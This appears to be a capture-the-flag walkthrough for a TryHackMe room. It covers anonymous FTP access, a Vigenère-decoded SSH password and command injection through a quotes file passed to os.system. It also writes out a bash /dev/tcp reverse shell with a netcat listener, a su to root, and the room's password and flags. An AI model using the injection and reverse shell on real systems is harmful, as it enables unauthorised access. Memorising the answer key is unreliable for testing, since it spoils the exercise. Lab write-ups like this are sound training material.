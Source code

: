 ```yaml
---
Help Cage bring back his acting career and investigate the nefarious goings on of his agent!
---
```


```anonymous (no pass)
ftp 10.10.65.125
```

```download
get dad_tasks
```
[vigener-solver](https://www.guballa.de/vigenere-solver)

> Dads Tasks - The RAGE...THE CAGE... THE MAN... THE LEGEND!!!!
One. Revamp the website
Two. Put more quotes in script
Three. Buy bee pesticide
Four. Help him with acting lessons
Five. Teach Dad what "information security" is.
In case I forget.... Mydadisghostrideraintthatcoolnocausehesonfirejokes

### ssh

==weston:Mydadisghostrideraintthatcoolnocausehesonfirejokes==  (weston found in source code also question)

```
sudo -l
```

```msg
sudo /usr/bin/bees
```

> Broadcast message from weston@national-treasure (pts/0) (Sat Aug 13 16:52:24 20                                                                               
AHHHHHHH THEEEEE BEEEEESSSS!!!!!!!! (through wall)

```files owned by cage
find / -type f -user cage 2>/dev/null
```

`/opt/.dads_scripts/spread_the_quotes.py`
`/opt/.dads_scripts/.files/.quotes`

```
cat /opt/.dads_scripts/spread_the_quotes.py
```

> #!/usr/bin/env python
#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
import os
import random
lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)

```some quotes
cat /opt/.dads_scripts/.files/.quotes
```

#### reverse shell
`cat > some.sh << EOF-EOF block to print the contents enclosed within this block in the terminal. `

```
cat > /tmp/shell.sh << EOF
```

*write* #!/bin/bash
bash -i >& /dev/tcp/*vpn-ip*/4444 0>&1
EOF

or just nano

> cat /tmp/shell.sh
#!/bin/bash
bash -i >& /dev/tcp/*vpn-ip*/4444 0>&1

```
chmod +x /tmp/shell.sh
```

```
printf 'anything;/tmp/shell.sh\n' > /opt/.dads_scripts/.files/.quotes
```

##### netcat(kali machine)

```
rlwrap nc -nlvp 4444 
```

```cage
ls
```

```
cat Super_Duper_Checklist
```

> 1 - Increase acting lesson budget by at least 30%
2 - Get Weston to stop wearing eye-liner
3 - Get a new pet octopus
4 - Try and keep current wife
5 - Figure out why Weston has this etched into his desk: ==THM{M37AL_0R_P3N_T35T1NG}==

### priv esc

```to check the 3 emails
cat email_backup/*
```

> found cageisnotalegend and key face [vigenere-tool](https://www.boxentriq.com/code-breaking/vigenere-cipher) 

==cageisnotalegend==

```not terminal error
python3 -c "import pty;pty.spawn('/bin/bash')"
```

```enter pass
su root
```
`pass: cageisnotalegend`

```
cat /root/email_backups/*
```

==THM{8R1NG_D0WN_7H3_C493_L0N9_L1V3_M3}==


- What is Weston's password?*Mydadisghostrideraintthatcoolnocausehesonfirejokes*
- What's the user flag?*THM{M37AL_0R_P3N_T35T1NG}*
- What's the root flag?*THM{8R1NG_D0WN_7H3_C493_L0N9_L1V3_M3}*

[[Gotta Catch'em All!]]